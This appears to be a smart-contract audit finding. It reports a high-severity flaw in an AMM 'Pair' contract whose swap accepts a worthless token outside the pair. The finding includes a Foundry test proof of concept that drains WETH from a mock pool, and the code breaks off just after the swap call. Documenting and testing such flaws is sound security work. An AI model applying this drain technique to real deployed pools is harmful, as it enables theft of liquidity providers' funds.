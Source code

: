 **Impact:**
This is a critical vulnerability that allows an attacker to drain tokens from the pool:

- Attackers can withdraw any amount of token0 or token1 from the pool by providing a worthless token that isn't part of the pair
- The attacker can create their own ERC20 token with no value and use it to drain the entire liquidity pool
- Liquidity providers will lose their funds as the pool can be completely drained
- The core invariant of the AMM (constant product formula) is completely broken as the contract accepts tokens that aren't accounted for in the reserves

**Severity Justification:**

- **Impact:** High - Direct theft of funds from the protocol is possible
- **Likelihood:** High - The attack is straightforward to execute and requires minimal setup
- **Rating:** High - This is a critical vulnerability that allows unauthorized token withdrawal and can lead to complete pool drainage

**Proof of Concept:**
The following test demonstrates how an attacker can drain tokens from the pool by providing a worthless token:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.26;

import { Test } from "@forge-std/Test.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { ERC20Mock } from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import { Constants } from "../helpers/Constants.sol";
import { Pair } from "../../contracts/Pair.sol";

contract PairH1Test is Test, Constants {
    function setUp() public {
        usdc = address(new ERC20Mock());
        weth = address(new ERC20Mock());
        pair = new Pair(usdc, weth);

        deal(usdc, USER_1, TOKEN_0_AMOUNT);
        deal(weth, USER_1, TOKEN_1_AMOUNT);

        vm.startPrank(USER_1);
        IERC20(usdc).approve(address(pair), TOKEN_0_AMOUNT);
        IERC20(weth).approve(address(pair), TOKEN_1_AMOUNT);
        pair.addLiquidity(TOKEN_0_AMOUNT, TOKEN_1_AMOUNT);
        vm.stopPrank();
    }

    function test_InvalidToken_DoNotRevert_() public {
        // Arrange attack
        address ATTACKER = makeAddr("ATTACKER");
        address invalidToken = address(new ERC20Mock());
        deal(invalidToken, ATTACKER, TOKEN_1_AMOUNT);
        vm.prank(ATTACKER);
        IERC20(invalidToken).approve(address(pair), TOKEN_1_AMOUNT);

        uint256 attackerWethPreBalance = IERC20(weth).balanceOf(ATTACKER);
        assertEq(attackerWethPreBalance, 0);

        uint256 expectedWethReceived = pair.getAmountOut(invalidToken, weth, TOKEN_1_AMOUNT);

        // Try to swap an invalid token
        vm.prank(ATTACKER);
        // vm.expectRevert(); // This should revert but doesn't
        pair.swap(invalidToken, weth, TOKEN_1_AMOUNT);

```